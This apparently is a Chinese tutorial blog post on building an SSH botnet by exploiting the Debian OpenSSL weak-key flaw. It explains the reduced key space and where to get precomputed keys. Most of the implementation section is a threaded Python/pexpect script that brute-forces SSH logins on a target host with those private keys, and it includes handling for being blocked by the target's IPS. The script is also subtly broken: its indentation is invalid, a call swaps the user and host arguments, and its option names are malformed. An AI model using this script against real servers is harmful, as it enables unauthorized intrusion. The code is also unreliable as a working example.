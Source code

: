 # 原创
：  【Python脚本进阶】2.2、构建一个SSH僵尸网络（下）：利用SSH中的弱私钥

# 【Python脚本进阶】2.2、构建一个SSH僵尸网络（下）：利用SSH中的弱私钥

**目录**

[一、简介](#%E4%B8%80%E3%80%81%E7%AE%80%E4%BB%8B)

[1.1、概述：](#1.1%E3%80%81%E6%A6%82%E8%BF%B0%EF%BC%9A)

[1.2、利用：](#1.2%E3%80%81%E5%88%A9%E7%94%A8%EF%BC%9A)

[二、实现](#%E4%BA%8C%E3%80%81%E5%AE%9E%E7%8E%B0)

[2.1、分析：](#2.1%E3%80%81%E5%88%86%E6%9E%90%EF%BC%9A)

[2.2、函数：](#2.2%E3%80%81%E5%87%BD%E6%95%B0%EF%BC%9A)

[2.3、步骤：](#2.3%E3%80%81%E6%AD%A5%E9%AA%A4%EF%BC%9A)

---


## 一、简介

> 
<h3>1.1、概述：</h3>
对于SSH服务器， 密码验证并不是唯一的手段。
SSH还能使用公钥加密的方式进行验证。在使用这一验证方法时， 服务器和用户分别掌握公钥和私钥。使用RSA或是DSA算法， 服务器能生成用于SSH登录的密钥。由于能够生成1024位、2048位， 甚至是4096位密钥， 这个认证过程就很难像利用弱口令进行暴力破解那样被破解掉


> 
<h3>1.2、利用：</h3>
软件自动分析工具发现了一行已被开发人员注释掉的代码。这行被注释掉的代码用来确保创建SSH密钥的信息量足够大。被注释掉之后， 密钥空间的大小的墒值降低到只有15位大小。仅仅15位的墒意味着不论是哪种算法和密钥长度， 可能的密钥一共只有32767个
<hr/>
Rapid的CSO和首席架构师HD Moore在两小时内生成了所有的1024位和2048位算法的可能的密钥。并把结果放到http://digitaloffense.net/tools/debian-openssl/中， 使大家都可以下载利用
<hr/>
可以从下载1024位所有可能的密钥开始， 并解压出这些密钥后， 把其中的公 钥全部删掉， 因为我们测试连接时只用其中的私钥
[Debian OpenSSL Predictable PRNG Toys (hdm.io)<img alt="icon-default.png?t=M666" src="https://csdnimg.cn/release/blog_editor_html/release2.1.7/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M666"/>https://hdm.io/tools/debian-openssl/](https://hdm.io/tools/debian-openssl/)下面是我使用谷歌翻译后显示出来的结果




---


---


---


## 二、实现

> 
<h3>2.1、分析：</h3>
相当多的服务器上都有漏洞的SSH 服务。能创建一个利用此漏洞的工具，通过访问密钥空间， 可以写一个简短的Python 脚本逐一暴力尝试32767 个可能的钥匙， 以此来登录一个不用密码， 而是使用公钥加密算法进行认证的SSH 服务器。还是要使用暴力破解登录口令时使用的pexpect 库


> 
<h3>2.2、函数：</h3>
spawn: 后面加上需要执行的
<hr/>
expect：工作方式像一个通用化的Chat脚本工具。Chat脚本最早用于UUCP网络内，以用来实现计算机之间需要建立连接时进行特定的登录会话的自动化。
<hr/>
os.listdir：用于返回指定的文件夹包含的文件或文件夹的名字的列表。  它不包括 . 和 .. 即使它在文件夹中。  只支持在 Unix, Windows 下使用
<hr/>
os.path.join：把目录和文件名合成一个路径（os.path 模块主要用于获取文件的属性，有很多方法分类，此乃其一）


---


> 
<h3>2.3、步骤：</h3>
测试弱密钥的脚本与我们暴力破解密码的脚本很相似。
在使用密钥登录SSH 时， 我们需要键入ssh user@host -i keyfile -o PasswordAuthentication =no 格式的一条命令。逐个使用目录中事先生成的密钥， 尝试进行连接。如果连接成功， 我们会把密钥文件的名称打印在屏幕上。还会使用两个全局变量： Stop和Fails 
<hr/>
Fails 的作用是计算由于远程主机关闭连接导致的连接失败的次数。如果这个数字大于5， 终止我们的脚本，扫描触发了远程IPS, 阻止了我们的连接， 那么我们也没有必要再继续下去。Stop 全局变量是一个布尔值， 它能使我们知道是否已经找到一个密钥， 找到的话main(）函数就不用再去启动任何新的连接线程

<pre><code>import pexpect
import optparse
import os


from threading import *
maxConnections = 5
connection_lock = BoundedSemaphore(value=maxConnections)
Stop = False
Fails = 0
def connect(host, user, keyfile, release):
    global Stop
    global Fails
    try:
        perm_denied = 'Permission denied'
        ssh_newkey = 'Are you sure you want to continue'
        conn_closed = 'Connection closed by remote host'
        opt = ' -o PasswordAuthentication=no'
        connStr = 'ssh ' + user + '@' + host + ' -i ' + keyfile + opt
        child = pexpect.spawn(connStr)
        ret = child.expect([pexpect.TIMEOUT, perm_denied, ssh_newkey, conn_closed, '$', '＃' ])
        if ret == 2:
            print('[-]  Adding Host to ! /.ssh/known_hosts')
        child.sendline('yes')
        connect( user, host, keyfile, False )
        elif ret == 3:
            print( '[-]  Connection Closed By Remote Host' )
            Fails += 1
        elif ret &gt; 3:
            print( '[+]  Success. ' + str(keyfile))
            Stop = True
    finally:
        if release:
            connection_lock.release()


def main():
    parser = optparse.OptionParser( 'usage %prog ' + '-H &lt;target host&gt; -u &lt;user&gt; -d &lt;directory&gt;' )
    parser.add_option( '-H', dest=' tgtHost', type='string', help=' specify target host')
    parser.add_option( '-d', dest =' passDir', type='string', help='specify directory with keys' )
    parser.add_option( '-u', dest='user', type = 'string', help = 'specify the user')
    (options, args) = parser.parse_args()
    host = options.tgtHost
    passDir = options.passDir
    user = options.user
    if host == None or passDir == None or user == None:
        print(parser.usage)
        exit(0)
    for filename in os.listdir( passDir ):
        if Stop:
            print('[*) Exiting: Key Found.')
            exit(0)
        if Fails &gt; 5:
            print( '[!] Exiting: '+' Too Many Connections Closed By Remote Host.')
            print( '[!] Adjust number of simultaneous threads' )
            exit( 0 )
        connection_lock.acquire()
        fullpath = os.path.join( passDir, filename )
        print('[-] Testing keyfile ' + str(fullpath))
        t = Thread( target=connect, args=(user, host, fullpath, True) )
        child = t.start()



if __name__ == '__main__':
    main()</code></pre>

